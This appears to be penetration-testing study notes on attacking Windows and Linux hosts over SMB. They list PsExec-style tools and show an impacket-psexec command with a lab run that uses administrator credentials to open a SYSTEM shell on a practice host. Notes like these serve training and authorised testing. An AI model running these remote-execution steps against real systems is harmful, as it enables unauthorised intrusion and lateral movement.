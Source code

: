 
## SMB

**Linux & Windows**
- Access file system
- Abuse privileges
  
**Linux**
- Exploit known vulnerabilities in Linux environment

**Windows: if user is Administrator**
- Remote Command Execution
- Enumerating Logged-on Users
- Pass-the-Hash (PTH)
- Extract Hashes from SAM Database to escalate privileges or gain access to network


### Remote Code Execution (RCE)


**Download PsExec from [Microsoft website](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec), or use some Linux implementations**

| PsExec Linux implementations | Description |
| ---- | ---- |
| [Impacket PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) | Python PsExec like functionality example using [RemComSvc](https://github.com/kavika13/RemCom) |
| [Impacket SMBExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py) | A similar approach to PsExec without using [RemComSvc](https://github.com/kavika13/RemCom). The technique is described here. This implementation goes one step further, instantiating a local SMB server to receive the output of the commands. This is useful when the target machine does NOT have a writeable share available. |
| [Impacket atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py) | This example executes a command on the target machine through the Task Scheduler service and returns the output of the executed command. |
| [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) |  includes an implementation of `smbexec` and `atexec`. |
| [Metasploit PsExec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md)  | Ruby PsExec implementation. |

#### Impacket PsExec
- Need domain/username, password, IP. The same applies to `impacket-smbexec` and `impacket-atexec`.

```shell
 impacket-psexec <username>:'<password>'@<% tp.frontmatter["RHOSTS"] %> 
```

**Example**
```shell-session
BluePho3nix@htb[/htb]$  impacket-psexec administrator:'Password123!'@10.10.110.17

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.110.17.....
[*] Found writable share ADMIN$
[*] Uploading file EHtJXgng.exe
[*] Opening SVCManager on 10.10.110.17.....
[*] Creating service nbAc on 10.10.110.17.....
[*] Starting service nbAc.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19041.1415]
(c) Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami && hostname

nt authority\system
WIN7BOX
```

